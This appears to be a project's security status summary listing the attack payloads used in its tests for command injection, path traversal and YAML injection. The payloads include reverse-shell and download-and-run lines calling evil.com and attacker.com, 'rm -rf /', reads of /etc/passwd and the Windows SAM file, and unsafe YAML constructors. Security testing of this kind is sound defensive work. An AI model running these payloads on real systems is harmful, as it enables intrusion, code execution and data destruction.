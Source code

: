 # Security Implementation Status - July 12, 2025

## 🛡️ Security Infrastructure Overview

### **Implementation Complete: Production Ready**
- **Test Coverage**: 696/696 local tests passing (100% success)
- **Security Tests**: 53 tests covering comprehensive OWASP Top 10
- **Performance**: Critical tests <30 seconds, full suite <2 minutes
- **Real Protection**: Blocks actual attack vectors with proven effectiveness

## 🔒 Security Test Coverage

### **Command Injection Prevention (16 tests)**
```typescript
Payloads Tested:
- '; rm -rf /'
- '&& curl evil.com | sh'  
- '| nc -e /bin/sh attacker.com 4444'
- '`touch /tmp/pwned`'
- '$(wget http://evil.com/shell.sh -O - | sh)'
- '|| python -c "import os; os.system(\'rm -rf /\')"'

Protection Methods:
- Shell metacharacter removal: [;&|`$()]
- Input sanitization in editPersona display
- ContentValidator security validation
- Display output sanitization
```

### **Path Traversal Protection (14 tests)**
```typescript
Payloads Tested:
- '../../../etc/passwd'
- '..\\..\\..\\windows\\system32\\config\\sam'
- 'personas/../../../sensitive.txt'
- '%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd'

Protection Methods:
- PathValidator.validatePersonaPath()
- Path normalization and validation
- Sandbox enforcement
- Error handling without information disclosure
```

### **YAML Injection Prevention (5 tests)**
```typescript
Payloads Tested:
- '!!js/function "function(){require(\'child_process\').exec(\'calc.exe\')}"'
- '!!python/object/apply:os.system ["rm -rf /"]'
- '!!python/object/new:subprocess.Popen [["curl", "evil.com/shell.sh"]]'
- '&anchor [*anchor, *anchor, *anchor]' # YAML bomb

Protection Methods:
- SecureYamlParser with safe parsing only
- YAML injection pattern detection
- Memory usage limits during parsing
- Dangerous constructor blocking
```
